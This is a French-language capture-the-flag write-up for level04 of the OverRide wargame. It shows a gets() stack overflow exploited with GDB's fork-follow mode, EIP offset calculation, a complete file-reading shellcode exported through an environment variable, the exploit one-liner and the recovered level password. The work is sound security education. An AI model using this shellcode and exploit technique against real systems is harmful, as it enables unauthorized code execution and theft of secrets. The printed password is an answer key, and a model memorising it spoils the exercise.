 Pour ce niveau on voit que la fonction gets est appelé on va pouvoir réécrir tout bêtement sur l'EIP. Les deux détails qui compliquent la chose sont :
    -> Le fork qui va faire une boucle infini lorsqu'on segfault et de plus nous empêcher de suivre le processus dans GDB mais on va pouvoir utiliser une option de GDB qui va suivre le processus du child process : set follow-fork-mode child.
    -> en essayant d'utiliser le même shellcode qu'à chaque exercice (execve) on va avoir le message :
        "no exec() for you"

Dans un premier temps pour trouver l'emplacement de l'EIP on va tout simplement  lancer le programme avec GDB avec le mode "set follow-fork-mode child" et calculer la taille du buffer en faisant (addresse EBP - addresse debut buffer) sachant que EIP se trouve juste après EBP on ajoute 4 et on sait la taille du payload nécessaire pour réécrire sur EIP : 

0xffffd650:     0xffffd670      0x00000000      0x00000000      0x00000000
0xffffd660:     0x00000b80      0x00000000      0xf7fdc714      0x00000000
0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6f0:     0x41414141      0x41414141      0x41414141      0x00000000
0xffffd700:     0xf7fceff4      0x00000000      0x00000000      0xf7e45513 <= EIP

Ce qui fait 160 en tout.

On a vu qu'on ne pouvait pas utiliser execve on va donc utiliser un shellcode qui va simplement aller read le contenu d'un fichier : (source : http://shell-storm.org/shellcode/files/shellcode-73.php)

export SHELLCODE=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')

on peut retrouver l'adresse de notre shellcode en lancant gdb, en regardant ou se trouve les \x90 au niveau de l'environement :

0xffffd8e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd900:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd910:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd920:     0x90909090      0x90909090      0x90909090      0x90909090

On choisira l'adresse 0xffffd900 => \x00\xd9\xff\xff

Plus qu'a lancer le programme level04 :

level04@OverRide:~$ python -c 'print"A"*156 + "\x00\xd9\xff\xff"' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...